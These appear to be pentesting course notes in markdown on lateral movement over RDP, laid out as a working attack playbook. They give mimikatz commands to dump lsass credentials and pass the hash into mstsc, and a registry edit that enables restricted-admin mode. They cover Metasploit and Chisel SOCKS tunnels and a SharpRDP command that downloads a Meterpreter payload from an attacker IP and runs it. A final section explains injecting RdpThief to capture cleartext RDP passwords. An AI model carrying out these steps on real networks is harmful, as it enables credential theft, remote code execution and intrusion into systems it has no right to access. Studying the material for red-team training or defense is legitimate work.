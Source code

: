 ## RDP

RDP is a multichannel network protocol developed by Microsoft and is used for communication
between Terminal Servers and their clients. When an RDP connection is created, the NTLM hashes will reside in memory for the duration of
the session. The session does not terminate without a proper logout, which means simply
disconnecting from the sessions will leave the hashes in memory.We can dump the hash if we find a RDP jump server.

```
mimikatz # privilege::debug
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # sekurlsa::logonpasswords
```

We can also use /restrictedadmin argument to mstsc.exe, so we don't need to supply clear text password to RDP

pass the hassh, and lauch a mstsc.exe with admin's hash
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /user:admin /domain:corp1
/ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```
In the case that restrictedadmin is disable on target machine, we can enable it first.

lanuch an admin powershell
```
mimikatz # sekurlsa::pth /user:admin /domain:corp1
/ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
```
Access to remote resource through a powershell session and enable the restrictedadmin mode
```
PS C:\Windows\system32> Enter-PSSession -Computer appsrv01

[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

#### Reverse RDP Proxying with metasploit

configure a reverse tunnel through the Meterpreter session and use that with a SOCKS proxy

```
msf5 exploit(multi/handler) > use multi/manage/autoroute
msf5 post(multi/manage/autoroute) > set session 1
msf5 post(multi/manage/autoroute) > exploit

```

```
post(multi/manage/autoroute) > use auxiliary/server/socks4a
msf5 auxiliary(server/socks4a) > set srvhost 127.0.0.1
srvhost => 127.0.0.1
msf5 auxiliary(server/socks4a) > exploit -j
```

add proxy rules
```
kali@kali:~$ sudo bash -c 'echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf'
```

RDP to remote target
```
kali@kali:~$ proxychains rdesktop 192.168.120.10
```

#### Reverse RDP Proxying with Chisel
[Chisel](https://github.com/jpillora/chisel.git) is an open-source tunneling software written in Golang. It works by setting up a TCP
tunnel and performing data transfers over HTTP, while securing it with SSH.

compile chisel on Kali with the go build
```
kali@kali:~$ sudo apt install golang
kali@kali:~$ git clone https://github.com/jpillora/chisel.git
kali@kali:~$ cd chisel/
kali@kali:~/chisel$ go build
```

commpile Chisel for windows exe, -ldflags -s -w to strip debugging info

```
env GOOS=windows GOARCH=amd64 go build -o chisel.exe -ldflags "-s -w"
```

Set up the chisel server on kali
```
kali@kali:~/chisel$ ./chisel server -p 8080 --socks5
```

enable ssh password fo the tunnel, and set up ssh portfoward
```
kali@kali:~$ sudo sed -i 's/#PasswordAuthentication yes/PasswordAuthentication yes/g' /etc/ssh/sshd_config
kali@kali:~$ sudo systemctl start ssh.service
kali@kali:~$ ssh -N -D 0.0.0.0:1080 localhost
```

trafer chisel.exe to windows, and run the client to connect to kali server
```
C:\Tools> chisel.exe client kaliserverIP:8080 socks
```

now RDP with proxychains
```
kali@kali:~$ sudo proxychains rdesktop 192.168.120.10
```

#### RDP remote code execution
The RDP application (mstsc.exe) builds upon the terminal services library mstscax.dll. This
library exposes interfaces to both scripts and compiled code through COM objects. We can use a tool called [SharpRDP](https://github.com/0xthirteen/SharpRDP) to exeucte command remotely using RDP.
```
C:\Tools> sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/met.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=corp1\dave password=lab
```
#### Steal Credentials from RDP

We can modify APIs and redirect execution to custom code. we could overwrite the initial instructions of an API at the assembly level with code that transfers
execution to any custom code we want. The Microsoft-provided unmanaged (Detours library)[https://github.com/microsoft/Detours/wiki/Using-Detours] makes this possible.

Our goal is to leverage API hooking to steal the clear text credentials entered into mstsc when
they are processed by relevant APIs. APIs responsible for handling
the username, password, and domain are CredIsMarshaledCredentialW, CryptProtectMemory,
and SspiPrepareForCredRead.

As a result of this research, MDSec released [RdpThief](https://github.com/0x09AL/RdpThief), which uses Detours to hook these APIs.
The hooks in this tool will execute code that copies the username, password, and domain to a file.
Finally, RdpThief allows the original code execution to continue as intended.

We can create a c# script, [rdpinject.cs](/11WindowsLateralMovement/rdpinject.cs) to search all the mstsc,rdp process, then inject Rdpthief.dll into the code, execute our code ,get password/username and resume program execution. 
